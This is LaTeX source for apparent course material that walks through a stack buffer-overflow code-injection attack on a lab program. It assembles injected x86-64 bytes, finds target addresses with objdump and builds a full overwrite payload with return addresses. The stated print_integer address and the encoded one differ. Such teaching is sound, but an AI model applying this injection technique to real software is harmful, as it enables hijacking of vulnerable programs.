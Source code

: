 \documentclass{article}
\newcommand{\function}[1]{\textbf{\lstinline{#1}}}
\begin{document}
\begin{verbatim}
/* 0x28 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* return address follows */
\end{verbatim}

Let's add $20+53$ and have \function{print_integer()} print that instead of 231.
The assembly code we need is
\begin{lstlisting}[language={[x86masm]Assembler}]
movq $20, %rdi
addq $53, %rdi
ret
\end{lstlisting}
and we need to put the address of \function{print_integer()} as the ``return address'' for that \lstinline{ret} instruction.

Place that assembly code in a file and then assemble it to get the necessary bytes: \\
\textit{
gcc -c injection-code.s
objdump -d injection-code.o
}
\begin{lstlisting}[language={[x86masm]Assembler}]
0:   48 c7 c7 14 00 00 00    mov    $0x14,%rdi
7:   48 83 c7 35             add    $0x35,%rdi
b:   c3                      ret
\end{lstlisting}

The target address is 0x400660: \\
\textit{objdump -d target $|$ grep print\_integer}
\begin{lstlisting}[language={[x86masm]Assembler}]
0000000000400660 <print_integer>:
  4006c7:       e8 94 ff ff ff          call   400660 <print_integer>
\end{lstlisting}

The last thing we need is the address where our code will be -- and our victim helpfully provided the buffer's address.

\begin{verbatim}
/* mov $0x14,%rdi */
48 c7 c7 14 00 00 00
/* add $0x35,%rdi */
                     48
83 c7 35
/* ret */
         c3
/* padding */
            00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* exploit code's address */
90 90 3c 61 fd 7f 00 00   /* don't forget byte-reversal for little-endian */
/* print_integer's address */
c7 06 40 00 00 00 00 00   /* don't forget byte-reversal for little-endian */
\end{verbatim}

Note: this will break the requirement for 16-byte stack alignment.

There's a more significant problem, though... \\
\textit{
./hex2raw \textless\ injection-code.hex \textgreater\ injection-code.raw \\
./target \textless\ injection-code.raw \\
}
\texttt{
Now the local buffer at address 0x7fff9bf3e0d0: \\
The number is 231 \\
Back in bar. \\
Back in foo. \\
Back in main. \\
}
\end{document}
